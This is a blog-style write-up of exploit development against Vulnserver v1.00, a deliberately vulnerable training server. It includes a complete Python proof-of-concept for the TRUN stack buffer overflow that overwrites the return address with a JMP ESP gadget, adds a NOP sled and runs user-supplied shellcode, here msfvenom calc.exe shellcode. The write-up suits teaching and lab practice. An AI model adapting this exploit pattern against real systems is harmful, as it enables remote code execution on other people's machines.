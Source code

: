 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 2
published: 2025-10-22
description: RCE exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 RCE Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Rs7UawYGYUg?si=9-AftjVomWWhah4X" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Exploit Overview
![x32dbg](./debugger_view.png)

In x32dbg, if you go to **Symbols → essfunc.dll → EssentialFunc4** you’ll see code like the one above.
Here, the instruction `JMP ESP` (located at **0x625011BB**) is critical for control-flow hijacking.
It transfers execution to the address held in the ESP (Extended Stack Pointer) register, which points to the top of the stack.
By overwriting that location we can redirect execution to our mapped shellcode and ultimately run that shellcode.

## PoC
```python
from argparse import ArgumentParser
from socket import *
import struct

def createPayload(shellcode_path: str):
    data = b"A" * 2006
    return_address = struct.pack("<L", 0x625011BB)
    nop_sled = b"\x90" * 50
    shellcode = b""

    with open(shellcode_path, "rb") as fp:
        shellcode = fp.read()
        fp.close()

    payload = b"TRUN \x2E"
    payload += data
    payload += return_address
    payload += nop_sled
    payload += shellcode

    return payload

def exploit(ip: str, port: int, shellcode_path: str):
    print("[~] Generating payload...")
    payload = createPayload(shellcode_path)
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] RCE Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    parser.add_argument(
        "-s", "--shellcode",
        type=str,
        help="Set shellcode file path",
        required=True
    )

    args = parser.parse_args()

    target_ip       = str(args.target)
    target_port     = int(args.port)
    shellcode_path  = str(args.shellcode)

    exploit(target_ip, target_port, shellcode_path)

if __name__ == "__main__":
    main()
```

Since the program is x32, I converted the `JMP ESP` address to an x32 (32-bit) address using `struct` and `"<L"` like this:

```python
struct.pack("<L", 0x625011BB)
```

If we jump to that location, we'll find the shellcode mapped immediately after a 50 bytes of NOP sled.

After that, the shellcode provided by the user is loaded into memory and executed immediately. Below are the execution results:

![result](./result.png)

I used an x86 `calc.exe` execution shellcode generated by **msfvenom** (with bad characters removed), and confirmed that it executed successfully.